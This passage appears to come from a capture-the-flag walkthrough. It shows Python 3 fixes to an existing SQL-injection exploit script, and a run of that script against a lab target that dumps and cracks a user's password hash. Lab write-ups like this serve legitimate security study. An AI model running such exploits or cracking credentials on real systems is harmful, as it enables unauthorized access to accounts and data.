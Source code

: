 We will have to modify the exploit a bit for Python3.

<pre data-title="exploit.py" data-overflow="wrap" data-line-numbers><code>    if not options.url:
--      print "[+] Specify an url target"
<strong>++      print("[+] Specify an url target")
</strong>--      print "[+] Example usage (no cracking password): exploit.py -u http://target-uri"
<strong>++      print("[+] Example usage (no cracking password): exploit.py -u http://target-uri")
</strong>--      print "[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist"
<strong>++      print("[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist")
</strong>--      print "[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based."
<strong>++      print("[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.")
</strong>    
    def crack_password():
--      dict = open(wordlist)
<strong>++      dict = open(wordlist, encoding='utf-8', errors='ignore')
</strong>    
    def beautify_print_try(value):
--      print "\033c"
<strong>++      print("\033c")
</strong>    
    
    def beautify_print():
--      print "\033c"
<strong>++      print("\033c")
</strong>        
    
    if options.cracking:
--      print colored "[*] Now try to crack password"
<strong>++      print colored("[*] Now try to crack password")
</strong></code></pre>

```
$ python exploit.py -u http://10.10.48.90/simple --crack -w /usr/share/wordlists/rockyou.txt

[+] Salt for password found: 1dac0d92e9f2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Pasword cracked: secret
```

### Answer

```
secret
```

###

### Where can you login with the details obtained?

